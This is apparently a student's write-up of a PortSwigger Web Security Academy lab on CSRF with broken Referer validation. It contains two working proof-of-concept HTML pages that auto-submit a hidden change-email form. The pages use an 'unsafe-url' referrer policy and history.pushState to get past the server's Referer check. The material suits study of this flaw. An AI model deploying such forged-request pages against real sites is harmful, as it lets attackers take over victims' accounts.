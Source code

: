 # [CSRF] Lab: CSRF with broken Referer validation (1)

---

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled.png)

header present: 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%201.png)

lets create simple CSRF PoC to see what the referer is set to when viewing the exploit. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%202.png)

so we will need to use the history state let mess around with that. 

`history.replaceState(state, title, URL)` the browser by default will prevent us from manipulating the referer header, so we need to use 

	 `<meta name="referrer" content="unsafe-url">`

in our CSRF payload. 

```jsx
<html>
	 <meta name="referrer" content="unsafe-url">
   <script> history.replaceState(null, ' ', 'testing')</script>
  <body>
    <form action="https://0a93004804d226d180411c67003500a1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="t&#64;tt&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.replaceState(null, ' ', 'testing')
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%203.png)

noting the ending now lets try adding the lab URL to the URL in the `history.replaceState()` 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%204.png)

and it worked now lets deliver this exploit to our victim. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%205.png)

```jsx
<html>
    <meta name="referrer" content="unsafe-url">
    <body>
        <script>history.pushState('','','/?0a93004804d226d180411c67003500a1.web-security-academy.net/my-account')</script>
        <h1>Hello World!</h1>
        <form action="https://0a93004804d226d180411c67003500a1.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20with%20broken%20Referer%20validation%20(1)%20c80228f335024a04b09fcaf6b98437cf/Untitled%206.png)

**NOTE PLEASE MAKE SURE THE EXPLOIT IS WORKING FIRST.**